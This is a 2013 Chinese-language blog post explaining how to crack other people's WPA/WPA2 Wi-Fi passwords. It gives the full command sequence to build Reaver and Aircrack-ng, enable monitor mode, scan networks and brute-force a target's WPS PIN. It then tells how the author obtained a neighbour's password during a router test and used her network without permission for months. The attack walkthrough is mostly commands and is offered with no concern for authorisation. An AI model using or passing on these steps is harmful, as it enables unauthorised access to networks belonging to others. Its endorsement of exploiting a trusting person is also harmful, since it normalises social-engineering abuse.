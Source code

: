 ```yaml
---
layout: post
title: "怎样黑 Wi-Fi 的 WPA/WPA2 密码？"
date: 2013-06-13 22:30
comments: true
categories: [WiFi, Network]
---
```


要破解一个 Wi-Fi 的登录密码有很多方法，本人有两次获取到一个 Wi-Fi 密码的成功经验，一次是用技术手段破解，另一次是无意中使用了社会工程学，在这里给大家分享一下。

## 技术手段
使用技术手段去获取一个 Wi-Fi 的登录密码不需要你成为一个网络工程师，你只需要一台(1)带无线网卡 - (2)装有 Linux 系统 - (3)能联网的电脑，再加上一小时左右的时间就足够了。这一小时的时间需要你跟着下面的步骤来安装并使用破解所需软件。我以 Ubuntu 操作系统为例作讲解。

P.S. 下面内容需要你有一些基本的 Linux 命令行操作知识。

#### 1、下载并安装 Reaver
你可以从 Reaver 的[网站](https://code.google.com/p/reaver-wps/ "reaver") 下载最新版的 Reaver。或者直接在终端里执行以下命令：

	wget https://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz

解压 Reaver

	tar -xzvf reaver-1.4.tar.gz

编译安装 Reaver 前需要先安装一些编译依赖包

	sudo apt-get install build-essential libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev

不用在意你的系统是否会重复安装已存在依赖包的，Ubuntu 会自动跳过已安装依赖包，其它系统请自行检查。

编译并安装 Reaver

	cd reaver-1.4
	cd src
	./configure
	make
	sudo make install

#### 2、下载并按装 Aircrack-ng
你可以从 Aircrack-ng 的[网站](http://aircrack-ng.org/ "Aircrack-ng") 下载最新版的 Aircrack-ng，或者直接在终端里执行以下命令：
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta1.tar.gz

解压 Aircrack-ng
	tar -xzvf aircrack-ng-1.2-beta1.tar.gz

安装依赖包
	sudo apt-get install libssl-dev

编译并安装
	cd aircrack-ng-1.2-beta1
	make
	sudo make install

#### 3、使用 Aircrack-ng 和 Reaver 破解 WiFi
使用 `iwconfig` 命令来查看无线网卡接口，一般来说就是 `wlan0`。然后执行以下命令將无线网卡设置成监视模式
	sudo airmon-ng start wlan0

成功的话会看到 “**monitor mode enabled on mon0**” 的信息。

查看附近的无线网络
	sudo airodump-ng mon0

输出信息类似于：
	BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
	CX:7A:XX:2C:E6:XX  -60     189        1    0    7  54e  WPA  CCMP   PSK  Tenda_3CF670
	CX:XX:36:2F:1E:XX  -127    275     4416   310   7  54e. WPA  CCMP   PSK  Tenda_3C7D60

当搜索到若干无线网络后，按`<Ctrl+C>`停止搜索。复制某个无线网络的**BSSID**，然后就可以使用 Reaver 进行暴力破解了
	sudo reaver -i mon0 -b <BSSID> -vv

在 BSSID 中粘贴你之前复制的 BSSID，按回车后就可以开始破解了。然后你就可以约上三五知己出去玩半天，或者自己看两三部电影了——根据网络情况和电脑性能，破解一般需要4-10小时。

## 社会工程
那次对邻居小妹妹使用了社会工程获得她的 WiFi 密码也是无意为之的。事情经过大致是这样的：

我的无线网络有一天突然上不了网，重置路由器无数次还是不行。于是我就拿到邻居小妹那边测试看是不是路由器坏了。邻居小妹那个天真无邪啊，把宽带帐号密码和无线路由器密码都给了我来测试。我试了一段时间，路由器还是不能正常联网，我就判断我的59元路由器寿终正寝了，然后就失望地离开了邻家小妹家。

回到自己的出租屋里，突然醒悟邻家小妹的 WiFi 密码就是两个小写字母，后加123456，用手机搜到她家的 WiFi 后输入了密码，竟然就连上了！然后就果断蹭网蹭了好几个月。

**-EOF-**

____
版权声明：自由转载-非商用-非衍生-保持署名 | [Creative Commons BY-NC-ND 3.0](http://creativecommons.org/licenses/by-nc-nd/3.0/deed.zh "CC 3.0")

如果觉得本文对你有帮助，可付费支持作者 | <a href='http://me.alipay.com/zhaqiang'><img src='https://img.alipay.com/sys/personalprod/style/mc/btn-index.png' style="border:none;vertical-align:middle;"/></a>
